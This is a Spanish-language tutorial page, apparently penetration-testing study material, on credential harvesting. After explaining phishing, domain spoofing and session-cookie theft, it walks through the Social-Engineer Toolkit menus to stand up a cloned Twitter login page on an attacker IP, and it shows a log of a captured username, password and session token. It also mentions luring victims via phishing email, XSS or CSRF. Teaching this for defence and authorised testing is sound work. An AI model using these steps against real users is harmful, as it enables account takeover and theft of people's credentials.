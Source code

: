 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima.&#x20;

#### Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing

Realizar un ataque de ingeniería social y crear una instancia de un sitio web falso para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit**.

**Paso 2** . Seleccioneen el menú principal, como se muestra en el Ejemplo 7-1.

_**Ejemplo 7-1**_  : Inicio del ataque de ingeniería social

<pre><code><strong>                Select from the menu:   1) Social-Engineering Attacks   2) Penetration Testing (Fast-Track)   3) Third Party Modules   4) Update the Social-Engineer Toolkit   5) Update SET configuration   6) Help, Credits, and About  99) Exit the Social-Engineer Toolkitset> 1
</strong></code></pre>

**Paso 3** . En el menú que aparece (ver Ejemplo 7-2), seleccione **2) Vectores de ataque a sitios web** .

_**Ejemplo 7-2**_  : Selección de vectores de ataque a sitios web

<pre><code><strong>                Select from the menu:    1) Spear-Phishing Attack Vectors    2) Website Attack Vectors    3) Infectious Media Generator    4) Create a Payload and Listener    5) Mass Mailer Attack    6) Arduino-Based Attack Vector    7) Wireless Access Point Attack Vector    8) QRCode Generator Attack Vector    9) Powershell Attack Vectors   10) Third Party Modules   99) Return back to the main menu.set>2 
</strong></code></pre>

<pre><code><strong>                The Web Attack module is a unique way of utilizing multiple web-basedattacks in order to compromise the intended victim.The Java Applet Attack method will spoof a Java Certificate anddeliver a metasploit based payload. Uses a customized java appletcreated by Thomas Werth to deliver the payload.The Metasploit Browser Exploit method will utilize select Metasploitbrowser exploits through an iframe and deliver a Metasploit payload.The Credential Harvester method will utilize web cloning of awebsite that has a username and password field and harvest allthe information posted to the website.The TabNabbing method will wait for a user to move to a differenttab, then refresh the page to something different.The Web-Jacking Attack method was introduced by white_sheep, emgent.This method utilizes iframe replacements to make the highlighted URLlink to appear legitimate however when clicked a window pops up thenis replaced with the malicious link. You can edit the link replacementsettings in the set_config if it's too slow/fast.The Multi-Attack method will add a combination of attacks throughthe web attack menu. For example, you can utilize the Java Applet,Metasploit Browser, Credential Harvester/Tabnabbing all at once to seewhich is successful.The HTA Attack method will allow you to clone a site and performpowershell injection through HTA files which can be used forWindows-based powershell exploitation through the browser.   1) Java Applet Attack Method   2) Metasploit Browser Exploit Method   3) Credential Harvester Attack Method   4) Tabnabbing Attack Method   5) Web Jacking Attack Method   6) Multi-Attack Web Method   7) HTA Attack Method  99) Return to Main Menuset:webattack>3
</strong></code></pre>

_**Ejemplo 7-3**_  : Selección del método de ataque de recolección de credenciales

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **3) Método de ataque de recolección de credenciales** .

<pre><code><strong>                The first method will allow SET to import a list of pre-defined webapplications that it can utilize within the attack.The second method will completely clone a website of your choosingand allow you to utilize the attack vectors within the completelysame web application you were attempting to clone.The third method allows you to import your own website, note that youshould only have an index.html when using the import websitefunctionality.   1) Web Templates   2) Site Cloner   3) Custom Import  99) Return to Webattack Menuset:webattack>1
</strong></code></pre>

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_Página de inicio de sesión falsa_



El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}
